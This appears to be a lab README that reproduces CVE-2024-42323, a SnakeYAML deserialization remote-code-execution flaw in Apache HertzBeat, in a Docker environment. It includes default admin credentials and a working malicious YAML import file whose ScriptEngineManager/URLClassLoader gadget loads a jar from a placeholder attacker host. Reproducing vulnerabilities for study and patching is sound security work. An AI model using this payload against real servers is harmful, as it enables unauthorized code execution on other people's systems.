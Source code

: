 # Apache-HertzBeat SnakeYaml Deserialization Vulnerability (CVE-2024-42323)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HertzBeat is an open-source real-time monitoring tool. In affected versions, due to the use of a vulnerable version of SnakeYAML for parsing user-controlled YAML files, authenticated attackers can configure malicious YAML scripts when importing new monitoring types via the /api/monitors/import and /api/alert/defines/import APIs, potentially leading to remote code execution.

Affected Versions:

* Apache HertzBeat < 1.6.0

References:

* https://forum.butian.net/article/612
* https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
* https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md

## Vulnerable environment

To run the vulnerable environment:

```
docker-compose up -d
```

This will start a `HertzBeat 1.4.4 service`.

Once the service is up and running, access the login page at  `http://your-ip:1157/dashboard`.

The default credentials are `admin/hertzbeat`.

## Vulnerability reproduce

Select any monitor and click to import the monitor.

![image-20250225144319776](1.png)

Then, Modify the value field in the uploaded YAML file:

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    description: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    host: 127.0.0.1
    intervals: 60
    name: MYSQL_127.0.0.1
    status: 1
    tags:
    - 3
    - 4
  params:
  - field: host
    type: 1
    value: 127.0.0.1
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: null
  - field: username
    type: 1
    value: root
  - field: password
    type: 2
    value: 9XNUiI+whoJ4Wih7yOiVwg==
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null
```

The `/api/monitors/import` endpoint triggers the SnakeYaml deserialization vulnerability.

* Compile the project from `https://github.com/fei9747/yaml-payload/` under jdk11 to generate the payload.
* Example: The generated payload executes the local command `touch /tmp/success`.

Successfully executing the code:

![image-20250225145141924](2.png)

The `success` file has been successfully created inside the container:![image-20250225145052690](3.png) 
